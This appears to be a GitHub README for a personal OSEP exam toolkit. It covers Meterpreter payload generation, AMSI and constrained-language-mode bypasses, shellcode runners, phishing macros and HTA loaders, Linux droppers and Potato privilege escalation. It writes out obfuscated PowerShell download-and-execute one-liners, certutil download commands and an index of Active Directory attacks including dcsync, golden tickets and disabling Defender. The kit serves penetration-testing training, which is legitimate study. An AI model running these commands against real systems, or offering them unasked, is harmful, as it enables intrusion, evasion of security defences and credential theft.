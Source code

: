 # OSEP

This is just for my osep.

Only tested on Kali-2023.3

## Install

Update
```
sudo apt-get update && sudo apt-get upgrade -y
```

Install dependencies
```
python3 -m pip install -r requirements.txt
sudo apt install -y mono-complete
```

Generate SSL certs for meterpreter
```
./gen_metreperter_cert.sh
```

### Install arsenal (Optional)

https://github.com/Orange-Cyberdefense/arsenal

Install arsenal
```
sudo python3 -m pip install arsenal-cli
```

Add alias (Kali)
```
echo \"alias a='${DIR}/run'\" >> ~/.zshrc
```

Fix arsenal issues on Kali

https://github.com/Orange-Cyberdefense/arsenal/issues/61
```
1. run: sudo vim /etc/sysctl.conf
2. paste: dev.tty.legacy_tiocsti=1
3. Save
4. run: sudo sysctl -p
```

## Usage
```
python3 gen_payload.py -i <IP or InterfaceName> -p <meterpreter port> -a <x64 or x86>

Example:
python3 gen_payload.py -i tun0 -p 443 -a x64
```

## meterpreter
```
msfconsole -q -r win64-staged-https.rc
```

## Main payload files
### Windows:

|                                     Name |                                                                                                                     Description |
|------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------|
|                                    a.ps1 |                                                                                                       Bypass AMSI in Powershell |
|                            awsi_buff.ps1 |                                                                           Bypass AMSI in Powershell & CSharp (Patch ScanBuffer) |
|                                 lsal.ps1 |                                                                   load amsi bypass & shellcode runner (aes, embedded shellcode) |
|                                 lsar.ps1 |                                                              load amsi bypass & shellcode runner (aes, load shellcode remotely) |
|                               lacxsr.ps1 |                                                     load amsi bypass & shellcode runner (caesar & xor, load shellcode remotely) |
|                              clm_rev.ps1 |                               Bypass clm with Installutil.exe and run amsi bypass & nc_reverse_tcp. Default revserse port 8443. |
|                                  clm.ps1 | Download and execute bypass_clm_with_installutil.exe with InstallUtil.exe. bypass_clm_with_installutil.exe will load lacxsr.ps1 |
|                   bypass_clm_cxshell.exe |                                                                                                  bypass clm and load lacxsr.ps1 |
|                                 bads.ps1 |                                                                                                             BadPotato + clm.ps1 |
|                                lbads.ps1 |                                                                                        AMSI bypass(Patch ScanBuffer) + bads.ps1 |
|                                 gods.ps1 |                                                                                                             GodPotato + clm.ps1 |
|                                lgods.ps1 |                                                                                        AMSI bypass(Patch ScanBuffer) + gods.ps1 |


Useful files
```
i`e`x(iWr -UsEbaSIcparSING http://IP/lacxsr.ps1);
i`e`x(iWr -UsEbaSIcparSING http://IP/clm_rev.ps1);
i`e`x(iWr -UsEbaSIcparSING http://IP/clm.ps1);
i`e`x(iWr -UsEbaSIcparSING http://IP/lbads.ps1);
```


### Phishing
| Name                                 | Description                                             |
|--------------------------------------|---------------------------------------------------------|
| macro_bypass_clm_with_installutil.vb | load clm.ps1                                            |
| shellcode_runner_caesar.vb           | shellcode runner                                        |
| clm_cert.hta                         | load bypass_clm_with_installutil.exe using certutil.exe |
| clm_ps.hta                           | load clm.ps1                                            |

### Linux
| Name         | Description                      |
|--------------|----------------------------------|
| shellxor.elf | shellcode runner (xor)           |
| dropper.elf  | download and execte shellxor.elf |
| dropper.sh   | download and execte shellxor.elf |

## Other tools
### tools/searchcommand.py 
```
$ ./tools/searchcommand.py 
0. Download_File
1. chisel
2. Get-DomainTrust
3. Get-DomainSID
4. PowerUpSQL
5. MSSQL
6. BloodHound
7. GoldenTicket
8. Dump-TrustKey
9. dcsync
10. Unconstrained_Delegation
11. Constrained_Delegation_with_protocol_transition
12. Constrained_Delegation_without_protocol_transition
13. rbcd_Resource_Based_Constrained_Delegation
14. to_parent_domain_using_krbtgt
15. to_parent_domain_using_trustkey
16. cross_forest_with_extraSID
17. schtasks
18. disable_defender
19. sc
```

```
$ ./tools/searchcommand.py -c 0
=================================
=    [Windows] Download_File    =
=================================
# Default listen ip on tun0, listen port on 80
# certutil.exe
certutil.exe -urlcache -f http://tun0_ip:80/{{filename}} {{filename}}

# PowerShell
iwr "http://tun0_ip:80/{{filename}}" -OutFile "{{filename}}"
powershell i`e`x(iWr -UsEbaSIcparSING http://tun0_ip:80/{{filename}});
```

### tools/make_assembly_loader.py

```
python3 tools/make_assembly_loader.py -c BadPotato.ExecuteRectangle -f Invoke-BadPotato -enc thirdparty/BadPotato.exe out/BadPotato.ps1
```

## Reference
https://github.com/tree-chtsec/osep-tools